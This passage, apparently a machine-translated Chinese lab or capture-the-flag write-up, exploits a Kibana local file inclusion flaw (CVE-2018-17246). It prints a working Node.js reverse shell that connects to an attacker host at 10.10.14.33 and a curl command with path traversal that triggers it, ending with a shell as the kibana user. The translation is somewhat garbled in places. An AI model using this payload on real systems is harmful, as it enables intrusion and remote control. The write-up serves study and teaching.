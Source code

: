 您可以在此处了解该漏洞:

[](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/) [## 执行这个，我知道你有它|赛博方舟

### 2018 年 11 月 21 日| | Nethanel Coppenhagen | ki Bana 中的一个本地文件包含允许攻击者运行本地 JavaScript…

www.cyberark.com](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/) 

这篇文章探讨了由 CyberArk 实验室发现的 Kibana 中严重程度严重的本地文件包含(LFI)漏洞。Github 里有个帖子总结了一下:[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

## CVE-2018–17246

我创建了一个包含以下内容的文件:

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1339, "10.10.14.33", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

触发 LFI:

```
curl 127.0.0.1:5601/api/console/api_server?apis=../../../../../../../tmp/shell.js
```

我可以得到一个贝壳作为基巴纳:

![](img/23747f7e98f175714210185735fcc3cc.png)

检查 Kibana 组拥有的文件，删除 proc:
